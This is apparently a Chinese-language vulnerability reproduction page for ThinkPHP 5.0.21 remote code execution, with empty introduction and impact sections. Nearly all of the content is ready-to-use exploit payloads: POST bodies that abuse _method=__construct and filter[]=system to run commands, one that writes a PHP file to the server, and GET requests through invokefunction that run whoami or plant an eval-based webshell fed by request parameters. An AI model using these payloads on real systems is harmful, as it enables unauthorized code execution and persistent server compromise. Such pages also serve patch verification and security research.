 ```yaml
---
title: Thinkphp 5.0.21
id: zhfly3154
---
```


# Thinkphp 5.0.21

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

三、复现过程

> https://www.0-sec.org/?s=index/index

```
POST 
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc 
```

> 写shell

```
POST `_method=__construct&filter[]=assert&server[REQUEST_METHOD]=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)` 
```

> 有captcha路由时无需debug=true

> https://www.0-sec.org/?s=captcha/calc

```
POST `_method=__construct&filter[]=system&method=GET

POST ?s=captcha

_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc&method=get>` 
```

### get请求

```
http://0-sec.org/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami 
```

### get请求

```
http://0-sec.org/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1 
```

### get请求

```
http://0-sec.org/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=@eval($_GET['fuck']);&fuck=system("whoami"); 
```

### get请求

```
http://0-sec.org/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=@eval($_GET['fuck']);&fuck=eval($_POST[ian]); 
```